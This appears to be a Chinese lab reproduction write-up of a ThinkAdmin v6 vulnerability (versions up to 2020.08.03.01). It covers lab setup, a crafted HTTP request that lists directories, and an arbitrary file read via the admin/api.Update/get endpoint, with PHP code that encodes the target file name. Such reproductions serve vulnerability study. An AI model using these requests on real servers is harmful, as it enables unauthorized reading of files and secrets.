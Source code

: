 # 0x00 软件介绍
基于ThinkPHP，专注于微信领域后台管理的一款开发框架

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：2020.08.03.1之前的某一个v6版本：https://github.com/179776823/ThinkAdmin

# 0x02 环境搭建
目标环境：2008_r2_standard_zh-chs + phpstudy + https://github.com/179776823/ThinkAdmin

composer config -g repo.packagist composer https://mirrors.aliyun.com/composer #使用阿里云的源更快一些  
https://github.com/179776823/ThinkAdmin #下载有漏洞的v6版本到phpstudy的对应目录下  
cd ThinkAdmin  
composer install  
create database admin_v6;  
create user 'admin_v6'@'localhost' identified by 'FbYBHcWKr2';#用户名密码来自config\database.php  
grant all on admin_v6.* to 'admin_v6'@'localhost';  
use admin_v6;  
source C:\phpstudy_pro\WWW\ThinkAdmin-6\admin_v6.sql;#将数据导入数据库  
访问：http://127.0.0.1:81/ThinkAdmin-6/public/index.php  
参考链接：  
https://mp.weixin.qq.com/s/MjU6u_eTsdH-nwQAgbxLRw  
https://thinkadmin.top/install  
https://www.cnblogs.com/Dot-Boy/archive/2008/08/04/1260185.html  
https://www.jianshu.com/p/d7b9c468f20d  
https://github.com/xuxuedong/personal-note/tree/master/2020_10_18_%E7%BD%91%E7%AB%99%E6%90%AD%E5%BB%BA%E4%BB%8E%E5%A4%B4%E8%AE%B0%E5%BD%95

# 0x03 利用条件
无

# 0x04 影响版本
作者原话：2020.08.03.01，≤这个版本的都有可能存在漏洞  
参考链接：  
https://github.com/zoujingli/ThinkAdmin/issues/244

# 0x05 漏洞复现
攻击环境：Kali-Linux-2020.2-vmware-amd64 + Burp_Suite_Pro_v2020.5.1

列目录漏洞复现：  
访问：http://192.168.149.133:81/ThinkAdmin-6/public/index.php/admin/login.html  
burp抓包，将数据包修改如下：  
```
POST /ThinkAdmin-6/public/index.php/admin/login.html?s=admin/api.Update/node HTTP/1.1
Host: 127.0.0.1
Accept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

rules=%5B%22.%2F%22%5D
```
成功列出了目录，如下图  
![image](./0.png)

任意文件读取漏洞复现：  
在网站根目录（C:\phpstudy_pro\WWW\ThinkAdmin-6\）下创建一个文件，名为1.txt，内容为：lalala  
在攻击机的浏览器中访问：http://192.168.149.133:81/ThinkAdmin-6/public/index.php?s=admin/api.Update/get/encode/1d1a383c38  
其中1d1a383c38是1.txt经过函数编码后得到的，编码的函数为  
```
<?php
function encode($content)
{
    list($chars, $length) = ['', strlen($string = iconv('UTF-8', 'GBK//TRANSLIT', $content))];
    for ($i = 0; $i < $length; $i++) $chars .= str_pad(base_convert(ord($string[$i]), 10, 36), 2, 0, 0);
    return $chars;
}

print( encode("1.txt") );
```
访问后，得到“bGFsYWxh”，经base64解码为“lalala”，如下图  
![image](./1.png)

![image](./2.png)
# 0x06 踩坑记录
无

# 0x07 参考链接
https://mp.weixin.qq.com/s/MjU6u_eTsdH-nwQAgbxLRw
